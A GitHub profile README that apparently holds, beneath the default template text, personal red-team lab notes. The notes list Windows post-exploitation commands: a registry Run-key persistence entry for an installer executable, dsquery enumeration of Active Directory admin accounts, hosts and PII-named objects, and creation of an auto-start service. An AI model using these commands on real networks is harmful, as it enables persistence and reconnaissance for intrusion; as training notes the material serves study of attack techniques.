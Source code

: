 - 👋 Hi, I’m @jefeattack
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
jefeattack/jefeattack is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

reg query "HKCU\Software\Microsoft\Windows\Currentversion\Run"

shell reg add "HKCU\Software\Microsoft\Windows\Currentversion\Run" /V "Backup" /t REG_SZ /F /D "C:\Users\alan.grant\AppData\Local\installer.exe"


shell dsquery * -filter "(&(objectclass= user)(Admincount=1))" -attr samaccountname name AdminCount limit 0

shell dsquery * -filter "(&(ObjectClass=user)(adminCount=1))" -d nyc.ershon.local -attr name saMAccountName description -limit 10

shell dsquery * -filter "(&(objectclass= computer)(operatingsystem= *in*))" -attr name samaccountname operatingsystem -limit 10

shell dsquery * -filter "(name= *PII*)" -attr samaccountname name limit 0

shell dsquery * -filter "(name= *PII*)" -attr * limit 5

shell dsquery * -filter "(name= SupervisorsManagersLeadership)" -attr * limit 5

shell dsquery * -filter "(name= *workman*)" -attr * limit 5

sc query NewServ
sc delete NewServ
sc create "myservicename" binpath= "C:\Path\to\file" displayname= "my service" start= auto
sc start "service"
